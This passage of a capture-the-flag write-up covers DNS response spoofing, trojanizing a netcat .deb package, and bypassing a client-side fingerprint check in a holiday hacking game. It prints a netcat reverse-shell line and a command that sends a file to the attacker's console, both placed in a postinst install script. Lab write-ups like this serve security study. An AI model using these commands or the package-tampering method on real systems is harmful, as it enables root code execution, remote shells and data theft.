           \qd        \
            |###[ DNS Question Record ]### 
            |  qname     = 'ftp.osuosl.org.'
            |  qtype     = A
            |  qclass    = IN
           \an        \
            |###[ DNS Resource Record ]### 
            |  rrname    = 'ftp.osuosl.org.'
            |  type      = A 
            |  rclass    = IN
            |  ttl       = 0
            |  rdlen     = None
            |  rdata     = '10.6.0.2'
           ns        = None
           ar        = None
```
### Testing
I attempted to test this in docker however I could not get `dig` or `nslookup` to actually send UDP requests to localhost which I was listening. 

In the end, just did a sample DNS request to google, printed it (in scapy) and compared each field side by side with a dummy DNS packet created in scapy with the fields that need to be modified.

### Results
After getting the response correct, the victim acts on the malicious DNS response and starts a TCP connection to the attacker via port 80.


However, the packet captures did not capture the actual HTTP request, so the python3 http server was launched to capture the HTTP request. 


## HTTP Response Poisoning
Now that the HTTP response is known, a malicious payload can be constructed to push malicious code to the victim. The server is requesting a `.deb` file which is a debian installable package. Likely, given the challenge, once the package is pulled down, the victim will install the package (e.g. `dpkg -i <DPKG.deb>`). This will require root permissions so if code can be embedded into the dpkg then it will execute as root. Going back to some interesting things observed during initial enumeration, there is a debs folder with a bunch of dpkg installation files. Poking around the box, most are not installed meaning they must be their for another reason. Likely to provide a base dpkg to embed malicious code. Just doing some basic thinking, the netcat package can/will be used because it will give uas a potential vector for data exfiltration client side in the case the victim machine doesn't have netcat installed.
### Getting GET headers
A little more recon to be done before attempting the attack. Want to know the HTTP headers on the GET request incase there is any useful information. This can be grabbed via tcpdump, logging the requests then viewing them in ascii.
```bash
tcpdump -i eth0 -nn -w capt.pcap not arp
tcpdump -nnr capt.pcap -A | less
```

All that really told is that curl is the user-agent so this is probably a script (shocking).

### Making a Malicious Deb
Basically, the gist is that here is a `postinst` script which runs post installation to do processing on the new binaries. This script, if we control the package is remote code execution. So, code will be embedded here. Below are the shell commands with annotations, run on the challenge console to create the malicious package.
```bash
cd debs

# extract the targeted deb file for tamerping
dpkg -x netcat-traditional_1.10-41.1ubuntu1_amd64.deb deb
cd deb

# make the debian build package file structure
mkdir DEBIAN
cd debian

# make the control file.
# This is the mackage metadata
# copy and paste from nc_deb/DEBIAN/control
vim control

# this is the main attack script
# instructions to run post installation
# copy and paste from nc_deb/DEBIAN/postinst, change IP to console IP
# initial version had a reverse shell 
#   nc <CONSOLE_IP> 4343 -e bash &
vim postinst
chmod 555 postinst

# make the package
dpkg-deb --build ../

# make the http server file system
mkdir -p pub/jfrost/backdoor

# move the deb to the proper location
mv ...deb pub/jfrost/backdoor/suriv_amd64.deb

# serve and wait - move to a new window for other commands
python3 http.server 80
```
### Malicious Deb Testing
This was tested using an ubuntu docker image. Run the attacker nc listener `nc -nlvp 4343` on the localhost and install the malicious package on the image. The `postinst` script will need to be updated to reflect the IPs of the local system. Tested and verified.
### Results
Reverse shell failure. For whatever reason the reverse shell reaches back and creates the connection to the listener but it does not get an interactive sessions. After some proponderance of the evidence, likely the process is killed by a watchdog monitoring the dpkg installation process. I also tried a bind shell which too did not work, likely because of the same reason.

Since the netcat process was able to open a session, it may be possible to cat out the contents to the target file before the session gets killed. This is done by modifying the `postinst` script to read the file rather then exec a reverse shell. `nc $CONSOLE_IP 4343 < /NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt`. After making these changes the contents of the file are captured by the netcat listener!


# Objective 10 - Defeat Fingerprint Sensor
The objective if this challenge is to bypass the fingerprint scanner in the santavator to gain access to the workshop as the regular player character. This challenge is solvable by inspecting the source code of the santavator zone which reveals the check on the finger print reader is enforced client side. By modifying the source code in the browser, the check can be removed allowing a bypass to access Santa's office.
## Enumeration
First, in the narrative of the game, using the santavator with authorization demonstrated how a normal flow occurs. The user, with authorization, clicks the button for Santa's Office then clicks the fingerprint reader. Therefore, the goal is to bypass the authorization that occur when the finger print reader is clicked.

Knowing this, the click handler code can be found by tracing the element in the website's DOM through to the Javascript. After doing this trace, the code which executes the click handler can be isolated as seen below.


## Bypassing
Inspecting the code, there is a call to `hashToken('santa')` in an if block which is likely the authorization event. This would indicate the authorization is occurring client side. It is possible then to modify the running javascript in the browser and remove this check. This functionality is available in standard Chrome and Firefox developer edition. The screen shots below show the modification in Chrome.


After modifying the source, the finger print will reader will grant you access to Santa's Workshop as the regular user.


